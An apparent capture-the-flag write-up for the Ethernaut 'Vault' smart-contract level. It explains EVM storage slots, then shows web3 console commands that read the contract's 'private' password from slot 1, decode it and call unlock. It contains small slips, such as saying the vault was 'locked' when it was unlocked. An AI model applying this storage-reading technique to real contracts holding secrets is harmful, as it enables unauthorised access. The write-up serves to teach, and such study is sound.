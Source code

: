 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challange's message.

>Unlock the vault to pass the level!

We have an contract which has type of bool variable called **locked** and type of **bytes** variable named **_password_** that defined in constructor(). What is more, there is **unlock()** function which checks _password we entered. If we entered correct password, unlocked will be **false** so we will beat this level.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<p align="center"><img  height="200" src="https://programtheblockchain.com/storage/storage.png"></p>

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at **slot 0**. 
+ ```b``` is stored at **slot 1**.

<p align="center"><img height="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png"></p>

More about  [Smart Contract's Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Accessing Private Variabes In Contract's Storage

In solidity, unlike the general idea that someone can't access any private variable from external calls, we can access private variables from contract's storage because of the **_contract's storage open to external calls_**. In this senario, some libraries help us like **_web3_** to attain storage of contracts in blockchain. More about [Accessing Contract's Storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

When you access storage of a contract with web3 library, you should use like this ```web.eth.getStorageAt(contract address,slot index)``` . More about [getStorageAt()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)

# Subverting

Check situation of locked variable.

```js
await contract.locked()
true
```
Access **password** from our target contract's storage and appoint to pass variable.

```js
var pass = await web3.eth.getStorageAt(contract.address,1,console.log)
```
The pass variable is in hex type. Let's convert it to Utf8 which is readable format.
```js
await web3.utils.hexToUtf8(pass)
'A very strong secret password :)'
```
Call unlock function and enter pass as password.
```js
await contract.unlock(pass)
```
Check situation of locked variable again. And, we locked the vault!
```js
await contract.locked()
false
```

**_by wasny0ps_**
